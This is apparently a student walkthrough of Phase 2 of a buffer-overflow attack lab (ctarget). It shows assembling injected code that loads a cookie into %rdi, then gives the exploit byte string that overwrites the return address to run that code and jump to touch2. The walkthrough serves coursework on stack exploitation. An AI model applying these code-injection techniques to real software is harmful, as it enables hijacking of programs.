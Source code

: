 ### **Phase 2**

Phase 2 wants us to try and call **touch2** and make it look like you passed your cookie as an argument. 

To find your cookie, run ctarget

```
./ctarget
```

My cookie is: ```$0x33f72ca5```

Go through ctarget's objdump and find the addresses of **getbuf** and **touch2**.

Getbuf's Address: ```0x5553a860```

Touch2's Address: ```0x401d4e ```

The difficult part of this phase is having to modify the %rdi register and putting our cookie there. 

In order to complete this task, we have to write assembly code, create a file called **ctarget_l2_inject.s** and write the following to move your cookie into %rdi

```
movq $0x33f72ca5, %rdi
```
The above code is in assembly, but we need the byte representation of this. To do so run the following

``` 
as ctarget_l2_inject.s -o ctarget_l2_inject.o
```

To see the disassembled code, run
```
objdump -d ctarget_l2_inject.o
```

It should look something like this

```
ctarget_l2_inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a5 2c f7 33    mov    $0x33f72ca5,%rdi
```


Now with all the pieces to this puzzle, we can begin to create our attack.

1. Create a file called **ctarget.lv2**
2. Add the **ctarget_l2_inject.o** objdump output
3. Add a **c3** which represents **retq** in assembly
4. Fill the rest of your buffer with padding
5. Add the return address of **getbuf** in little-endian with padding
6. Add the return address of **touch2** in litte-endian with padding

It should look something like this

```
/* Objdump of the movq */
48 c7 c7 a5 2c f7 33 c3
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00

/* Ret address of getbuf */
/* 0x5553a860 */
60 a8 53 55 00 00 00 00

/* Ret address of touch2 */
/* 0x401d4e */
4e 1d 40 00 00 00 00 00
```

To run it, type

```
./hex2raw < ctarget.lv2 | ./ctarget
```

Phase 2 is complete, on to the next